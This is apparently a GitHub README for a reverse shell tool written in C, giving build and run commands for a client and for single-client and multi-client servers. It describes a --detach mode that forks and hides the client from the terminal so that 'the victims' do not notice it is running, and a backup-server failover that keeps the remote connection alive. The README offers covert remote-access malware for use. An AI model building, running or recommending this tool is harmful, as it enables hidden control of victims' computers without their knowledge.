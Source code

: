 # Reverse Shell
this projects contains a client side and a server side
## client side:
```
make && ./client -i ip -p port --detach 
```
if you use --detach it makes a child process and kills the parent and  detachs the child from terminal so the victims does not realize that the program is still running 
and reroute stdout to a file for debug purposes
client gets a back up port and ip and makes a child process so if we confronted any problems with connecting to the current server the it signals the already made child process to proceed and connect
to the back up server with the given back up port and ip given from the server during  the handshake

## server side (ordinary)
```
make && ./server -p port -b backlog -s part_size -bp backup_port -bi backup_ip 
```
it sends the part size to the client and each socket will sends maximum of part size data 
you can change that for better performance

## server side (multi client)
```
make && ./server -p port -b backlog -s part_size -bp backup_port -bi backup_ip  -t thread_num
it uses thread pool for dealing with clinets and a seperate thread for accepting them
thread_num indicates that how any threads we want to have in out thread pool
it is important that it should be at least 5 threads and an optimal of 10 threads
```

## how to run 
run ```make``` for both to compile them 
### server side
```
./out/server.out -b 4 -s 400 -bp 3001 -bi 127.0.0.1  -p 3000

```
add ```-t 10 ``` for threaded server and change ./out/server.out to ./out/parserver.out
### client side
```
./out/client.out -i 127.0.0.1  -p 3004 --detached
```


salam

